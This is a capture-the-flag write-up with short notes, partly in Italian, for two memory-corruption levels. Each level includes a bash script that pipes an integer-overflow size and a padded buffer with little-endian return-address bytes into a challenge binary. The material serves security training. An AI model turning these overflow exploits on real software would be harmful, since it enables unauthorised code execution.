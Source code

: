 `./memory.sh 56`

## Level 5.0

2
2147483648 ($2^{32}/2$)

int32 accetta al massimo $2^{32}-1$

The concept is very similar to the one used in the previous level. 

```shell
#!/bin/bash

file="/challenge/*"

payload_n=2
payload_size=$1
overflowing_payload_size=2147483648
append_string=$(echo -e "\xcd\x21\x40")

string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "%d %d %s" "$payload_n" "$overflowing_payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```

`./memory5.sh 88`

## Level 5.1

```shell
#!/bin/bash

file="/challenge/*"

payload_n=2
payload_size=$1
overflowing_payload_size=2147483648
append_string=$(echo -e "\x43\x21\x40")

string=$(printf '1%.0s' $(seq 1 $payload_size))

if [[ -n "$append_string" ]]; then
    string="${string}${append_string}"
fi

payload_size=$(($payload_size+${#append_string}))

printf "%d %d %s" "$payload_n" "$overflowing_payload_size" "$string" | $file

echo -e '\nThe provided string is:' $string ', length:' $payload_size
```
